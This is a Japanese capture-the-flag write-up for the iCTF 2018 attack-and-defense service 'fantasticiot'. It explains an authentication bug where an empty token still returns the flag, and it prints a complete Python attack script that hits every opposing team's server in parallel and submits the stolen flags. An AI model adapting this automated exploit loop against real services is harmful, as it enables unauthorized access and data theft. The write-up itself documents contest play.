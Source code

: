 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2018/ictf-2018-fantasticiot/
  - /blog/2018/03/17/ictf-2018-fantasticiot/
date: "2018-03-17T16:45:46+09:00"
tags: [ "ctf", "writeup", "ictf", "attack-and-defense" ]
---
```


# iCTF 2018: Fantasticiot

-   <https://ictf2018.net/>
-   <https://scoreboard.ictf2018.net/#/scores>

A&Dだと気付いたので参加した回。
順位が上のチームからしか攻撃点が得られないわりに点差が開かないため「最終tickまで順位調整しつつ潜伏しておいて最後にまとめてflag提出」が有効に見えた。
1位のチームはscoreboard hackを疑いたくなる点数取ってた。

## solution

動いてるbinaryをrevすると入力がjsonであることが分かる。特に以下の4つを受け入れる。
op `getflag` に存在する `token` field はおそらく一致判定が必要なものであるが、これが何であれ結果が返ってきてしまうバグがある。他は見なくてよかった。

``` json
{
    "service": "flag",
    "op": "getflag",
    "id": "${ID}",
    "token": "${TOKEN}"
}
```

``` json
{
    "service": "flag",
    "op": "setflag",
    "id": "${ID}",
    "token": "${TOKEN}",
    "flag": "${FLAG}"
}
```

``` json
{
    "service": "fridge",
    "op": "addfridge",
    ...
}
```

``` json
{
    "service": "fridge",
    "op": "getfridge",
    ...
}
```

## implementation

与えられた `hack_the_planet.py` を修正。


並列化しないとtimeout待ちで遅い。

``` python
#!/usr/bin/env python2

# This code was written 10 hours before the competition, yikes
# Any bugs are your problem

import socks # pip install PySocks
import socket
socks.setdefaultproxy(socks.PROXY_TYPE_SOCKS5, '127.0.0.1', 4444)
socket.socket = socks.socksocket

from pwn import * # pip install pwntools
from swpag_client import Team # pip install swpag_client
import time
import concurrent.futures
import sys

team = Team(None, "SazPO4ahE9QQqQ21ryBe8UEL017vis7t")

def team_ip(team_host):
    # 172.31.129.1 (team1) ... 172.31.129.254 (team254) ... 172.31.130.1 (team255) ...
    team_number = int(team_host[4:])
    minor = ((team_number - 1) % 254) + 1
    major = (team_number / 255) + 129
    return '172.31.{major}.{minor}'.format(major=major, minor=minor)

import json
def pwn_fantasticiot(conn, flag_id):
    payload = {
        'service': 'flag',
        'op': 'getflag',
        'id': flag_id,
        'token': '',
    }
    conn.sendline(json.dumps(payload))
    result = json.loads(conn.recvline())
    print result
    return result['flag']

def attack_fantasticiot(ip, port, flag_id):
    try:
        with remote(ip, port, timeout=1) as conn:
            if service['service_name'] == u'fantasticiot':
                flag = pwn_fantasticiot(conn, flag_id)
            else:
                assert False
        result = team.submit_flag([ flag ])
        service_flag_ids[service['service_name']].add(flag_id)
        print("HACKED", flag, result)
    except Exception as e:
        print("Error connecting to", target['team_name'], target['hostname'], ip, port)
        print(e)

services = team.get_service_list()
service_flag_ids = dict()
while True:
    for service in services:
        if service['service_name'] != u'fantasticiot':
            continue
        print("Going to attack", service['service_name'])
        if service['service_name'] not in service_flag_ids:
            service_flag_ids[service['service_name']] = set()
        targets = team.get_targets(service['service_id'])
        with concurrent.futures.ThreadPoolExecutor() as executor:
            for target in targets:
                flag_id = target['flag_id']
                ip = team_ip(target['hostname'])
                port = target['port']
                if flag_id not in service_flag_ids[service['service_name']]:
                    service_flag_ids[service['service_name']].add(flag_id)
                    executor.submit(attack_fantasticiot, ip, port, flag_id)

    time.sleep(10) # DOS is against the rules
```
